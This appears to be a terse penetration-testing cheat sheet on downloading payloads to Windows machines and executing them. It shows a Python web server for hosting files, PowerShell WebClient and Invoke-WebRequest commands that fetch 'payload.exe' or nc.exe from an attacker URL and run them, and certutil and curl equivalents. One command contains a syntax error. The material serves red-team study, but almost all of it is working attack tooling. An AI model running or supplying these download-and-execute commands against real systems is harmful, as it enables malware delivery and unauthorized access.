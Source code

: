 # Download to disk and execute
## deploy http server
```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

## Net.WebClient DownloadFile method
noisy and not recommendad
```powershell
PS> $downloader = New-Object System.Net.WebClient
PS> $payload = "http://attacker_URL/payload.exe"
PS> $local_file = "C:\programdata\payload.exe"
PS> $downloader.DownloadFile $payload,$local_file)
PS> & $local_file # execute file
```
```powershell
PS> (new-object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<file.exe>','<C:\Users\xxx\Desktop\file.exe>')
```
## BITSAdmin.exe
## Certutilexe w/ -urlcache argument
```powershell
cmd> certutil -urlcache -f http://<IP>:<PORT>/<file.exe> <file.exe> # cmd.exe
```

## other
```powershell
PS> IWR -Uri http://<IP>:<PORT>/<file.exe> -OutFile <C:\temp\nc.exe>
cmd>/PS> curl.exe 172.16.1.30/wget.exe -o C:\temp\wget.exe
```